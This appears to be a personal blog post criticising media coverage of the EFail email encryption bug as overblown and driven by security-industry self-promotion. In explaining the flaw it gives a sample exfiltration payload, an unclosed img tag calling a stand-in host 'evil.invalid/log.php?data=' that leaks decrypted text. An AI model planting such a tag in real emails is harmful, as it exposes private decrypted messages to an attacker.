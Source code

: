 ```yaml
---
layout: post
title: "Reputation whoring in the computer security industry"
---
```


Today, the EFail thing was in the news.
The journalistic spin in the media went approximately like "PGP is broken", which made me suspicious.
Decryption is a local operation, so remote data leakage shouldn't happen.

Turns out, the issue is actually unrelated to the decrpytion process itself, but instead embedding its output in HTML code and displaying that.
The data extraction happens by prepending a `<img src="http://evil.invalid/log.php?data=` tag as inline document before the encrypted ciphertext.
This still requires the client to:

- Concatenate several "inline" multipart sections
- Render HTML
- Allow external requests

I'll spare the rant on why the first point is semantically wrong and should never be done.

The last point, i dont know why this was ever a good idea.
Every guide on email security or encryption recommends to disable it, because its a big can of worms that better stays sealed.

Media coverage is vastly overestimating the impact.
The bug even has an own memorizable name and a logo!
And, of course, an own website.

I tell you why, because its just plain reputation whoring.
And fearmongering.
Because thats what drives IT security sales - big names and fear.
People and companies have monetary interest to pull off such scares.

This is a dark pattern going on, and im sick of it.

Edit: [Other media](https://protonmail.com/blog/pgp-vulnerability-efail/) are complaining about the inaccurate coverage
